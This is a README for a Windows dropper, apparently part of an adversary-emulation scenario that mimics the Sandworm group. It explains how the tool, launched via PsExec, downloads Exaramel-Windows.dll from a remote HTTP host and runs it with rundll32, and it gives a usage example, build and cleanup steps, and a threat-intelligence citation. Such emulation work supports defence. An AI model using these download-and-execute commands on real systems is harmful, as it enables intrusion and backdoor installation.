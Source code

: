 # Exaramel Windows Dropper

This program is used in step5 of the sandworm scenario to download and execute Exaramel-Windows.dll.

This program is executed on target via PsExec.py.

This program then downloads the DLL via HTTP and URLDownloadToFile.

The downloaded DLL is then executed via the C standard library:

```C
system("rundll32.exe evil.dll,Start")
```

## Quick Start

Execute this program on Windows:

```
Usage:
    .\Exaramel-Windows-Dropper.exe <url> <file_path>

Example:
    .\Exaramel-windows-Dropper.exe http://192.168.0.4/getFile/Exaramel-Windows.dll .\Exaramel-Windows.dll
```

>Note: This program does not work with self-signed certificates unless you import the certificate on the target system first.

## Build Instructions

Download and install a C++ compiler: <https://jmeubank.github.io/tdm-gcc/download/>

Run the make.bat script from a terminal (cmd.exe):

```
make.bat
```

You should have 'Exaramel-Windows-Dropper.exe' in the current working directory.

## Cleanup Instructions

Delete Exaramel-Windows-Dropper.exe and any downloaded files.

Reboot the system to flush any DLL's from process memory.

## CTI Evidence

Sandworm Team used a backdoor which could execute a supplied DLL using rundll32.exe.

<https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/>
